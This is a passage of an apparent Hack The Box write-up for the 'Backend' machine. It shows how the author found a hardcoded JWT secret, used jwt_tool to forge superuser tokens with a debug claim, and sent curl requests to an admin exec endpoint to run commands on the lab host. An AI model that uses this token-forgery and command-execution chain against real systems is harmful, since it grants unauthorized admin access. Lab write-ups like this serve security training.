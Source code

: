We can see that there is a `/home/htb/uhc/` directory and python applications usually are stored in `/home/htb/uhc/app/main.py`

After some time messing around found the `/home/htb/uhc/app/core/config.py` with jwt token secret

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2024.png)

`SuperSecretSigningKey-HTB`

`HS256`

Change the token using the secret

`python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzA5OTk2NzU0LCJpYXQiOjE3MDkzMDU1NTQsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiYWM1NGE4MjMtOWJmZC00N2Y5LTk1OWQtMDQ4MDIwZjA3MWU1In0.r3uNoQ1YuKtTLn9nQ1ZHwU2t-bV25mxYkEznz5Z-cno -S hs256 -p 'SuperSecretSigningKey-HTB' -T`

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2025.png)

Send a curl request

`curl -X 'GET' \
'[http://10.10.11.161/api/v1/admin/exec/id](http://10.10.11.161/api/v1/admin/exec/id)' \
-H 'accept: application/json' \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzA5OTk2NzU0LCJpYXQiOjE3MDkzMDU1NTQsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.25WjhlERDoRpA7WZoMflgha75TMjENEEoNFJI9KLgas'`

When we try we get this error so lets fix it

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2026.png)

Make the same command but with the new key

`python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzA5OTk2NzU0LCJpYXQiOjE3MDkzMDU1NTQsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.25WjhlERDoRpA7WZoMflgha75TMjENEEoNFJI9KLgas -S hs256 -p 'SuperSecretSigningKey-HTB' -T`

Now we need to add the key `debug` and set it to `True`

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2027.png)

Now when run the same command with the new key we get the results of the command

`curl -X 'GET'   '[http://10.10.11.161/api/v1/admin/exec/id](http://10.10.11.161/api/v1/admin/exec/id)'   -H 'accept: application/json'   -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzA5OTk2NzU0LCJpYXQiOjE3MDkzMDU1NTQsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.7c-P9jhcFF-B-dsv0YZLZm4_YdhsgK9pMtbCHlt1QKQ'`

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2028.png)

### RCE
